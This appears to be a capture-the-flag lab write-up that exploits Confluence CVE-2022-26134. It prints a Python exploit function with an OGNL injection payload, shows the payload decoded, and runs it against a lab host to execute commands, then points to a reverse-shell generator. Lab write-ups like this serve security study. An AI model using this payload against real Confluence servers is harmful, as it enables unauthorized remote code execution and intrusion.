 [https://github.com/nxtexploit/CVE-2022-26134](https://github.com/nxtexploit/CVE-2022-26134)

the code is pretty straighforward, it establish a tcp connection and execute a “payload” 

```python
[...SNIP...]

def send_payload(host, command):   
    payload = "%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D".format(command)
    response = requests.get("{}/{}/".format(host, payload), verify=False, allow_redirects=False)
    
    try:
      if response.status_code == 302:
          return response.headers["X-Cmd-Response"]
      else:
          return "This target does not seem to be vulnerable."
    except:
      return "This target does not seem to be vulnerable."

[..SNIP...]

```

the decoded payload looks like this:

```python
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("{}").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

using java runtime environment any command passed as a parameter  will be replaced from `{}`

and it will be executed thanks to OGNL injection (object-graph navigation language) more info here

[https://en.wikipedia.org/wiki/OGNL](https://en.wikipedia.org/wiki/OGNL) 

after we got the “flu” injection let get a shell Shall we :)

# Getting a Shell

running the exploit returns

```python
┌──(kali㉿kali)-[~/Desktop/pg_ground/flu/CVE-2022-26134]
└─$ python CVE-2022-26134.py http://192.168.157.41:8090 'id'    
Confluence target version: 7.13.6
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence) 

```

in order to get a reverse shell : you can head to [revshells.com](http://revshells.com) to generate a shell or create your own 
